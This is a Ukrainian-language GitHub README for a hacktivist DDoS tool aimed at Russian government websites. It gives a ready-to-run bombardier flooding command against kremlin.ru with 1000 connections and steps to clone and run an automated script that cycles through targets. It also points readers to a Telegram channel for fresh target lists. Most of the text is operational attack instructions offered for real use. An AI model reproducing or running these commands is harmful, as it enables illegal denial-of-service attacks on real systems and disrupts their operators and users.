 # fuckputin

🇺🇦 DDoS скрипт для координації боротьби з загарбницькими сайтами - використовує bash та [bombardier](https://github.com/codesenberg/bombardier) 🇺🇦

### Cпрощена інструкція - мануальне виконання скрипта

- Встановіть Docker - [Інструкції](https://docs.docker.com/get-docker/)
- 'docker run -it alpine/bombardier -c 1000 -d 60s -l https://kremlin.ru`
- Остання частина команди це сайт, слід обрати сайт з [останніх повідоплень чату](https://t.me/itarmyofukraine2022)  

### Автоматичний скрипт

Скрипт виконує цю команду та автоматично підставляє цілі

#### Цілі

Найкраще слідкуйте за оновленими цілями [в цьому офіційному каналі](https://t.me/itarmyofukraine2022)  
Відредагуйте список у файлі [./fuckputin.sh](/fuckputin.sh)

#### Скрипт

- Зкачайте код виконаиши цю команду в терміналі:  
   `git clone https://github.com/v1adko/fuckputin.git`
- Перейдіть до папки з кодом - `cd ./fuckputin`
- (опціонально) Оновіть [цілі](#цілі)

#### Запуск в Docker контейнері

- Встановіть Docker - [Інструкції](https://docs.docker.com/get-docker/)
- `docker-compose up --build`  
   **або**
- `docker build -t fuckputin`
- `docker run fuckputin`

#### Локальний запуск

- Встановіть Go - [інструкції](https://go.dev/doc/install)
- Встановіть bombardier [зкачавши бінарний файл](https://github.com/codesenberg/bombardier/releases) відповідний до вашої системи
- Запустіть команду `./fuckputin-local.sh`

### Усе

Зараз можете залишити виконуватись программу на деякий час, можете [моніторити чат](https://t.me/itarmyofukraine2022) та [оновлювати цілі](#цілі) після чого перезапускати скрипт

Дякую за боротьбу! Україна переможе! 💪 🇺🇦
